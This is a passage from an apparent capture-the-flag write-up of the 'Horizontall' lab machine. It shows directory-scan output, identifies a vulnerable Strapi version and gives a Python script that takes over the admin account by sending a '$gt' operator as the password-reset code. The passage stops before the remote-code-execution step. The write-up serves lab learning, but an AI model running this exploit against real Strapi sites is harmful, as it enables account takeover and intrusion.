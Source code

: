 
We must now add `10.10.11.105    api-prod.horizontall.htb    horizontall.htb` in `/etc/hosts` in order to run another dir scan

```
/admin                (Status: 200) [Size: 854]
/Admin                (Status: 200) [Size: 854]
/users                (Status: 403) [Size: 60]
/reviews              (Status: 200) [Size: 507]
/ADMIN                (Status: 200) [Size: 854]
/Users                (Status: 403) [Size: 60]
/Reviews              (Status: 200) [Size: 507]
```

## Accessing the machine

The admin page redirects us to a login page generated by the `strapi` nodejs nodule.
Reading through the documentation, we can see that the page `/admin/strapiVersion` gives us back the version of this module, which in our case is `3.0.0-beta.17.4`.

Searching on [snyk.io](https://snyk.io/vuln/SNYK-JS-STRAPI-536641) and [ExploitDB](https://www.exploit-db.com/exploits/50239), we find out that this version of strapi has a critical vulnerability that enables us to reset the admin's password by simply sending a POST request and then run a blind RCE injection.

We can create a python script that automatically executes both of these steps, giving us a bash-like experience.

```py
import requests as req
from os import system
import threading
import json
import sys

s = req.Session()

url = "http://api-prod.horizontall.htb"
my_ip = "10.10.14.196"

# Reset password
def reset_psw():
    
    new_pass = "imacutecupcake"

    payload = {
        "password" : new_pass,
        "passwordConfirmation" : new_pass,
        "code" : {
            "$gt":0
            }
    }

    print("[»] Resetting admin password...")
    r = s.post(f"{url}/admin/auth/reset-password", json = payload)

    if "admin" in r.text:
        print("[+] Success! The password was resetted!")

        data = json.loads(r.text)

        print("The new credentials are: ")
        print(f"\t- Username: {data['user']['username']}")
        print(f"\t- Email: {data['user']['email']}")
        print(f"\t- Password: {payload['password']}")
        print(f"\t- JW Token: {data['jwt'][:30]}...")
```